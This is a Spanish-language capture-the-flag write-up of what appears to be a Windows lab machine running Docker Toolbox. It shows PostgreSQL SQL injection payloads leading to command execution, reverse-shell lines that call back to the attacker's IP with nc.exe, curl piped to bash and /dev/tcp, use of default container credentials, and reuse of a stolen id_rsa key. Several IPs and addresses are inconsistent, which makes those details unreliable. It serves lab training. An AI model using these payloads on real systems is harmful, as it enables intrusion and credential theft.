## Summary

Tags: #SMB #FTP #BurpSuite #HTTPS #PostgreSQL #Netcat #Docker #Contenedor #Windows #RCE #ReverShell #DockerToolbox #Id_RSA #Nmap 

- IP -> 10.10.11.130
- Ports -> TCP (21,22,135139,443,445,5985), UDP (idk)
- OS ->  Windows
- Services & Applications
    - 21 -> FTP
    - 22 -> SSH
    - 135 -> RPC
    - 443 -> HTTPS
    - 445 -> SMB
    - 5985 -> WinRM

## Recon

```bash
❯ smbclient -L ❮IP❯                   # Lista recursos compartidos a nivel de red haciendo uso de un null sesion (sin credencial alguna)
❯ smbclient -L ❮IP❯ -N                # Lista recursos compartidos a nivel de red haciendo uso de un null sesion (sin credencial alguna)
```

```bash
❯ smbmap -H ❮IP❯                      # Herramienta elternativa para ver si nos reporta algo mas y nos reporta los permisos (WRITE, READ)
❯ smbmap -H ❮IP❯ -u 'null'            # Herramienta elternativa para ver si nos reporta algo mas haciendo uso de un null sesion (sin credencial alguna)
```

```bash
❯ crackmapexec smb ❮IP❯               # Para listar recursos compartidos de Windows
```

Anonimous esta permitido
```bash
❯ ftp ❮IP❯                               # Si el servidor nos lo permite nos podemos conectar como Anonymous sin colocar password.
```
Encontramos un archivo que se llama 'Docker-Toolbox'

```bash
❯ openssl s_client -connect ❮IP❯:443     # Para conectarnos al openssl e inspeccionar el certificado del puerto 443
```
Encontramos un nuevo dominio 'admin.megalogistic.com'
Lo agregamos al **/etc/hosts** y despues entramos a la web para ver que hay y encontramos un panel de autenticacion que la momento de hacerle una inyeccion SQL este nos devuelve un error y nos pone que hay un **PostgreSQL**.

Ahora nos disponemos a abrir BurpSuite e iunterceptaremos las peticiones de la pagina 
* Nos damos cuenta que la data esta viajando por url-encode, por lo que hacemos **Ctrl + Shift + u** para url-decodear
* Buscamos en Google 'HackTricks: [Hacktricks-PostgreSQL](https://book.hacktricks.xyz/pentesting-web/sql-injection/postgresql-injection)' SQLI para **PostgreSQL** y encontramos lo siguiente 
```bash
❯ username=1' ; select pg_sleep(5);-- - $password=1'    # La web debe de tardar 5 seg en responder 
```

Ahora como podemos injectar comandos, podemos tener un **RCE (Remote Code Execution**) 
* [HackTricks-PostgreSQL-RCE](https://book.hacktricks.xyz/network-services-pentesting/pentesting-postgresql#rce-to-program)
```bash
❯ DROP TABLE IF EXISTS cmd_exec;                    # Elimina la tabla si es que existe
❯ CREATE TABLE cmd_exec(cmd_output text);           # Crea una tabla 
❯ COPY cmd_exec FROM PROGRAM 'id';                  # Por medio de esa tabla podemos inyectar un comando 
❯ SELECT * FROM cmd_exec;
```

Podemos colocar un **+** para los espacios o seleccionar y poner **Ctrl + u** y url-encodeamos, para poder colocarlos en BurpSuite y este no nos arrije un error
```bash
❯ CREATE+TABLE+cmd_exec(cmd_output+text);--+-                              # Creamos una tabla 
❯ COPY+cmd_exec+FROM+PROGRAM+'\\10.10.14.2\smbFolder\nc.exe+-e+cmd+10.10.14.2+443';--+-          # Por medio de esa tabla podemos inyectar un comando, este nos ayudara a conectarnos a un recurso compartido
	# IP = IP de atacante 
	# smbFolder = Nombre del folder del recurso compartido
	# nc.exe = Netcat para Windows
	# cmd = Entablar una ReverShell con la maquina de atacante
	# 443 = Puerto de la ReverShell de la maquina de atacante 
```

Buscamos Netcat en nuestra maquina de atacante y lo colocamos en el folder que vamos a compartir, este Netcat es para Windows
```bash 
❯ locate nc.exe
```

Para compartir los recursos con la maquina victima 
```bash
❯ impacket-smbserver smbFolder $(pwd) -smb2support # Creamos un servicio con SMB 

	# smbFolder = Nos creara un servicio compartido llamado 'smbFolder'
	# pwd = Sincronizado con la ruta absoluta actual 
	# smb2support = En Windows 10 le damos soporte a la version 2
```

Nos ponemos en modo escucha para recibir la ReverShell de la maquina victima 
```bash
❯ rlwrap nc -nlvp 443

	# nc = Netcat 
	# n = No DNS
	# l = Modo escucha, conexiones entrantes
	# v = verbose
	# p = numero local de puerto en esucha

```


Miramos que no se conecta, enotnces lo intentamos como si fuera una maquina Linux
```bash
❯ COPY+cmd_exec+FROM+PROGRAM+'curl+10.10.14.2/Shell|bash';--+-          # Por medio de esa tabla podemos inyectar un comando, este nos ayudara a que la maquina victima busque el archivo Shell que contiene la ReverShell en nuestra maquina de atacante y lo procese con bash 
```

Creamos el archivo de la ReverShell
```bash
nvim Shell
	#!/bin/bash
	bash -i >& /dev/tcp/10.10.14.13/443 0>&1
```

```bash
❯ python3 -m http.server 80                 # Nos montamos un servidor http 80 para compartir el recurso 
```

```bash
❯ nc -nlvp 443                              # nos ponemos en escucha para recibir la ReverShell
```

## User

Una vez dentro, nos damos cuenta que estamos denmtro de un contenedor '127.17.0.2'
```bash
❯ hostname -I                                # Nos muestra solo la direccion IP
```
Hacemos tratamiento de la pseudo-consola

* Buscamos en Google credenciales tipicas de [docker-toolbox](https://stackoverflow.com/questions/32646952/docker-machine-boot2docker-root-password) y nos muestra estas: **user:docker, passwd:tcuser**
* Buscaremos que puertos estan abiertos en la maquina victima 

```bash
❯ route -n                                   # Para mirar las routing tables y encontramos la 127.17.0.1
```

Por si el comando **ping** no esta disponible
```bash
❯ (echo ‘’ > /dev/tcp/172.16.0.1/22) 2>/dev/null && echo “[+] Puerto abierto” || echo “[+] Puerto cerrado”
```
Nos damos cuenta que el puero 22 del contenedor esta OPEN, por lo que procedemos a conectarnos con SSH 

```bash
❯  ssh docker@127.17.0.1                                    # Para conectarnos por ssh en el puerto default 22 del contenedor docker
```
Entramos a la inteface y nos damos cuenta que somos el usuario 'docker' 

```bash
❯ whoami                                           # Miramos el nombre del usuario
```

```bash
❯ sudo -l                                          # Ver que permisos tenemos en el sudoers (l=ele)

	# (ALL : ALL) ALL
	# (root) NOPASSWD: /usr/bin/find -> Puede ejecutar un comando sin necesidad de password
```
Miramo que nos podemos convertir en root en el contenedor y eso nos ayudara a buscar la flag user.txt

Buscaremos la flag dentro del usaurio docker, pero o hay nada. Por lo que la buscaremos en la maquina de manera general.
```bash
❯ find  / -name file.txt 2>/dev/null               # Para buscar un archivo en el sistema desde la raiz
```

Ahora nos dirijimos a la raiz '/' y encontramos un dir **'C > Users > Administrator'**, esta es la estructura de Windows. 
```bash
❯ ls -la                          # Podemos observar todos los archivos del dir inclyendo los ocultos 
```
Encontramos un dir **.ssh**. Esto quiere decir que puede que exista un **id_rsa**, copiamos su contenido en nuestra maquina de atacante en un archivo llamada 'id_rsa' y le damos el privilegio 600

 ```bash
❯ chmod 600 id_rsa                              # Para darle un permiso 600 a la id_rsa      
```

```bash
❯ ssh -i id_rsa Administrator@10.10.10.236      # Nos conectamos por ssh teniendo un id_rsa con privilegio 600
```
Nos podemos conectar desde nuestra maquina de atacante ya que en el escaneo de nmap, observamos que el puerto 22 estaba OPEN

## Root

Somo el usuario 'Administrator'  en Windows  
```bash
❯ whoami                                           # Miramos el nombre del usuario
```

```bash
❯ ipconfig                                         # Nos muestra las interfaces y las direcciones IP de Windows
```
Miramos que estemos dentro de la IP de la maquina victima

Nos ponemos a buscar la flag root.txt
